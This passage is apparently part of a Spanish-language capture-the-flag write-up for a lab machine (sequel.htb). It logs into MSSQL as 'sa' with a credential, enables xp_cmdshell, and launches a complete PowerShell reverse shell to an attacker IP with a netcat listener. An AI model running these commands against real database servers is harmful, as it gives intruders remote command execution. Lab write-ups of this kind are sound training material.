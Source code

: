 después de estar un rato en la base de datos el usuario no tenia permisos de ejecutar nada, además de que las bases de dato no tenían información. 

volví a ver los usuarios y que en mssql en usuario **sa** es el predeterminado, asi que intente probarlo para conectarme a la base de datos:
```bash
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.2.36
```

comandos que he ejecutado:

```mssql
//listar si eres admin:
SELECT is_srvrolemember('sysadmin');

//ver si los permisos de ejecutar comandos en el sistema desde la conexion de la base de datos:
EXEC sp_configure 'xp_cmdshell';
```

si el resultado "run_value" esta a 0, podemos intentar activarlo con:
```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

podemos volver a verificar :
```mssql
EXEC sp_configure 'xp_cmdshell';
```

si esta el "run_value" en 1 podremos ejecutar finalmente una reverse shell:
```powershell
EXEC xp_cmdshell 'powershell -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.10.10'',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"';
```

en mi maquina ejecute antes:
```bash
nc -lnvp 4444
```

si no se ejecuta, hay que hacer el proceso de nuevo, porque se restablece la configuración de ejecución de comandos

<img src="/images/writeup-escapetwo/Pasted image 20250505103552.png">
